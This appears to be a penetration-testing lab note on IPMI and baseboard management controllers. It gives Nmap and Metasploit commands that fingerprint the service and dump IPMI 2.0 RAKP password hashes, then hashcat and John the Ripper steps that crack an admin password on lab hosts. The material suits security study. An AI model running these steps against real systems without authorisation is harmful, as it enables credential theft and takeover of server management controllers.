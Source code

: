 # 🟢 IPMI

### &#x20;IPMI is typically used in three ways:

* Before the OS has booted to modify BIOS settings
* When the host is fully powered down
* Access to a host after a system failure

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band.

### To function, IPMI requires the following components:

* Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
* Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
* Intelligent Platform Management Bus (IPMB) - extends the BMC
* IPMI Memory - stores things such as the system event log, repository store data, and more
* Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

&#x20;Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.&#x20;

Below is a sample Nmap scan using the Nmap [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) NSE script to footprint the service.

```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

**Metasploit Version Scan**

```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.202.5
run
```

```
[+] 10.129.202.5:623 - IPMI - Hash found: admin:7695808482000000bff21a6dc73c0720231565b2d2f1f7cd44912deef8eec08457c691efcde9f73ea123456789abcdefa123456789abcdef140561646d696e:235d2268c59c623daf0482a681afc35b3e821d0e
put the hash inside a file
```

```
hashcat -m 7300 HASH_admin.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> ls
[*] exec: ls

Desktop  HASH_admin.txt  install.sh  JOHN_FILE.txt  odat  oracle-instantclient-sqlplus_19.6.0.0.0-0parrot2_amd64.deb  Templates
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> john JOHN_FILE.txt
[*] exec: john JOHN_FILE.txt

Created directory: /home/htb-ac-51753/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 32 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
trinity          (10.129.202.5 admin)
trinity          (10.129.202.5 admin)
trinity          (10.129.202.5 admin)
3g 0:00:00:10 DONE 2/3 (2024-01-12 22:05) 0.2955g/s 16331p/s 42160c/s 42160C/s 123456..9brooklyn
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
